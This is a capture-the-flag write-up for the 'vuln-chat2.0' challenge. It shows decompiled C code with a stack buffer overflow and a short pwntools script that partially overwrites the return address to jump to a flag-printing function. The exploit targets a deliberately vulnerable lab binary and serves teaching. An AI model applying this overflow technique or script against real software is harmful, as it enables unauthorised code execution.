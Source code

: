 # Writeup Of AceBear Team

First, use IDA pro to view source code i have:
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0x14u);
  doThings();
  return 0;
}
```
```C
int doThings()
{
  char buf; // [esp+1h] [ebp-27h]
  char v2; // [esp+15h] [ebp-13h]

  puts("----------- Welcome to vuln-chat2.0 -------------");
  printf("Enter your username: ");
  __isoc99_scanf("%15s", &v2);
  printf("Welcome %s!\n", &v2);
  puts("Connecting to 'djinn'");
  sleep(1u);
  puts("--- 'djinn' has joined your chat ---");
  puts("djinn: You've proven yourself to me. What information do you need?");
  printf("%s: ", &v2);
  read(0, &buf, 0x2Du);
  puts("djinn: Alright here's you flag:");
  puts("djinn: flag{1_l0v3_l337_73x7}");
  return puts("djinn: Wait thats not right...");
}
```
```C
int printFlag()
{
  puts("Ah! Found it");
  system("/bin/cat ./flag.txt");
  return puts("Don't let anyone get ahold of this");
}
```
In `doThings()`, when i input infomation `read(0, &buf, 0x2Du);` i can overwrite 2 byte of return address.
In this case old value of return address is `0x08048668`, i can overwrite to `0x08048672`, which is address of 'printFlag()`

```py
from pwn import *
from time import *

r = remote('vulnchat2.tuctf.com', 4242)
# r = process('./vuln-chat2.0')
# gdb.attach(r, )
r.recvuntil('Enter your username: ')
r.sendline('a')
sleep(1)
r.send('a'*0x2b+'\x72\x86')
r.interactive()
```
